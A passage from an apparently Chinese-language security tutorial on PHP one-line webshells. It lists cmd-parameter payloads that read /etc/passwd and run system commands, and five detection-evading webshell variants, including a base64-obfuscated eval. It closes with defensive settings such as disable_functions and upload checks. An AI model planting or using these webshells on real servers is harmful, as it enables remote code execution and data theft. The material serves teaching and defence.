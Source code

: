 
3. **执行任意代码**：
   - 攻击者可以通过 `cmd` 参数执行任意PHP代码，例如：
     - 查看文件：`cmd=print_r(scandir('.'));`
     - 读取文件：`cmd=echo file_get_contents('/etc/passwd');`
     - 执行系统命令：`cmd=system('whoami');`

---

### **一句话木马的变种**
为了绕过安全检测，攻击者会对一句话木马进行各种变形。以下是一些常见的变种：

#### 1. **使用 `assert()` 函数**
```php
<?php @assert($_POST['cmd']); ?>
```

#### 2. **使用 `create_function()` 函数**
```php
<?php $func = create_function('', $_POST['cmd']); $func(); ?>
``

#### 3. **使用 `preg_replace()` 函数**
```php
<?php @preg_replace('/.*/e', $_POST['cmd'], ''); ?>
```

#### 4. **使用 `file_put_contents()` 函数**
```php
<?php @file_put_contents('shell.php', $_POST['cmd']); ?>
```

#### 5. **加密或编码**
```php
<?php eval(base64_decode('ZXZhbCgkX1BPU1RbJ2NtZCddKTs=')); ?>
```
- 解码后：`eval($_POST['cmd']);`

---

### **防御措施**
1. **禁用危险函数**：
   - 在 `php.ini` 中禁用 `eval()`、`assert()`、`create_function()` 等危险函数。
   - 示例：
     ```ini
     disable_functions = eval,assert,create_function,preg_replace
     ```

2. **文件上传检查**：
   - 对上传的文件进行严格的类型检查和内容扫描。
   - 禁止上传可执行文件（如 `.php`、`.jsp` 等）。

3. **输入过滤**：
   - 对所有用户输入进行严格的过滤和验证，避免直接执行用户输入的内容。
